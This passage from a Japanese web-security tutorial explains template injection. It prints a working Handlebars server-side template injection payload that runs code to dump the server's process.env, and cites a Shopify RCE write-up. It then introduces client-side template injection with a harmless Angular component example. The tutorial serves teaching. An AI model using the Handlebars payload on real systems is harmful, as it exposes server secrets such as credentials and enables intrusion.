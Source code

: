 ```js
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{#with obj.constructor.name as |str|}}
            {{#blockHelperMissing str.toString}}
              {{#with (arr.constructor (str.toString.bind "return JSON.stringify(process.env);"))}}
                  {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                      {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                          {{#with (obj.constructor.constructor "test")}}
                            {{this}}
                          {{/with}}
                      {{/with}}
                  {{/with}}
              {{/with}}
            {{/blockHelperMissing}}
        {{/with}}
  {{/with}}
{{/with}}
```

詳細については、著者の元の記事を参照してください：[Handlebars template injection and RCE in a Shopify app](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

## クライアントサイドテンプレートインジェクション

SSTIを理解すると、CSTIを理解するのがより簡単になります。原理は似ており、唯一の違いは、このテンプレートがフロントエンドのテンプレートであることです。

待ってください、フロントエンドにもテンプレートがあるのですか？もちろんあります！

例えば、Angularはその一つです。以下はAngularの[公式サイト](https://angular.io/quick-start)からの例です。

```js
// 必要なパッケージをインポートします
import 'zone.js';
import { Component } from '@angular/core';
import { bootstrapApplication } from '@angular/platform-browser';

// コンポーネントを記述します
@Component({
  selector: 'add-one-button', // マークアップで使用されるコンポーネント名
  standalone: true, // コンポーネントは自己完結型
  template: // コンポーネントのマークアップ
  `
   <button (click)="count = count + 1">Add one</button> {{ count }}
  `,
})

// コンポーネントをエクスポートします
export class AddOneButtonComponent {
  count = 0;
}

bootstrapApplication(AddOneButtonComponent);
```
